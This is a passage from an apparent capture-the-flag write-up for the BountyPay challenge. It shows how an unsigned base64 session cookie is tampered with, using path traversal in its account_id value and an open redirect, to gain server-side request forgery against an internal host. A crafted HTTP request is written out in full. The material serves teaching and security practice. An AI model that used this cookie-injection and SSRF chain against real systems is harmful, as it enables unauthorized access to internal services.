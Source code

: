 also tried to decode the cookie `token=eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9` and the interesting part is our `account_id` is used by the web server to build new request into the `api.bountypay.h1ctf.com`, the cookie is not having tampering protection so i was able to modify the `account_id` and making the api to request another enpodints.

![API Account-id](/images/h12006/api-account-id.png)

I was using [Hackvector](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) to view the cookie as `plain text` and send it as `base64` this plugin is very handy, it was possible to make the backend send the request to another location.

also there is an open redirect on the api `https://api.bountypay.h1ctf.com/redirect?url=https://www.google.com/search?q=REST+API`, this endpoint only able to redirect to whitelisted domain, i was spent tons of hours to bypass but actually we don't need to bypass it, By combining the `open redirect` to the proxy request at `account_id` we can turn this into `SSRF`, Long story short `https://staff.bountypay.h1ctf.com` and `https://software.bountypay.h1ctf.com` is whitelisted into the redirect and i tried to access the `https://software.bountypay.h1ctf.com` with the proxy give me an login page with title `Software Storage`, this below the full request and response.
```
#Request
GET /statements?month=06&year=2020 HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,de;q=0.8,es;q=0.7,id;q=0.6,ms;q=0.5
Cookie: token=<@base64_0>{"account_id":"F8gHiqSdpK/../../../redirect?url=https://software.bountypay.h1ctf.com/#","hash":"de235bffd23df6995ad4e0930baac1a2"}<@/base64_0>

```

```
# Response
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 02 Jun 2020 08:07:07 GMT
Content-Type: application/json
Connection: close
Content-Length: 1621

```
